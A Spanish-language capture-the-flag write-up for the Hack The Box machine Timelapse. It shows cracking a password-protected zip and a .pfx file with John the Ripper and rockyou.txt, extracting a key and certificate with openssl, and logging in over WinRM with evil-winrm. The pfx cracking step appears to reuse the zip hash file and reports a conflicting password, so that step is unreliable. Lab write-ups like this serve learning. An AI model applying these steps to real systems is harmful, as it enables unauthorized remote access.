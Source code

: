 Disclaimer -> Este post está basado en practicas hechas con máquinas de la pltaforma Hack the box, están pensadas para la tecnica por ataque de diccionario con el diccionario rockyuu.txt, asi que estan sacadas de aquí para que funcione. En otro entorno puede que no funcione, (ejemplo contraseñas tipo "124wsf24yrf122rwef1q3r") 

----------------------------------------------------------------

# \Archivos .zip

En la máquina [Timelapse] (https://app.hackthebox.com/machines/Timelapse) de htb nos hemos descargado un zip, pero está protegido con una contraseña.

```console
[cucuxii]-[~/Timelapse]:$ /usr/share/john/zip2john.py winrm_backup.zip > zip_hash
ver 2.0 efh 5455 efh 7875 winrm_backup.zip/legacyy_dev_auth.pfx PKZIP Encr: 2b chk, TS_chk, cmplen=2405, decmplen=2555, crc=12EC5683
[cucuxii]-[~/Timelapse]:$ john zip_hash -w=/usr/share/wordlists/rockyou.txt 
supremelegacy    (winrm_backup.zip/legacyy_dev_auth.pfx)
[cucuxii]-[~/Timelapse]:$ ls 
winrm_backup.zip    legacyy_dev_auth.pfx
```

----------------------------------------------------------------

# \Archivos .pfx

En la máquina [Timelapse] (https://app.hackthebox.com/machines/Timelapse) me he topado con este archuivo, no tenia ni idea de que era hasta que investigué que es un archivo relacionado con temas de encriptación (como una llave).

```console
[cucuxii]-[~/Timelapse]:$ /usr/share/john/pfx2john.py ./legacyy_dev_auth.pfx > pfx_hash
[cucuxii]-[~/Timelapse]:$ john zip_hash -w=/usr/share/wordlists/rockyou.txt 
thuglegacy    (winrm_backup.zip/legacyy_dev_auth.pfx)
```
Ya tenemos la contraseña del pfx ¿Y ahora que? Resulta ser que con la busqueda en google "pfx file" sale [esto](https://www.ibm.com/docs/en/arl/9.7?topic=certification-extracting-certificate-keys-from-pfx-file). Es decir, podemos crear certificados y llaves para conectarnos por el servicio de control remoto de windows "winrm". Te pide contraseñas (tanto PEM como de la clave), es la que hemos sacado antes todo el rato "thuglegacy"

```console
[cucuxii]-[~/Timelapse]:$ openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out llave.key
[cucuxii]-[~/Timelapse]:$ openssl pkcs12 -in legacyy_dev_auth.pfx -clcerts -nokeys -out legacy.cert
```
Pero para poder usarlas todavía queda hacer cierta cosa; quitar las cabeceras que te pone. Es decir todo lo que está antes de "----BEGUIN ENCRYPTED PRIVATE KEY----" y "-----BEGIN CERTIFICATE-----", asi se quedan limpias.

```console
evil-winrm -S -k llave.key -c legacy.cert -i 10.10.11.152
```
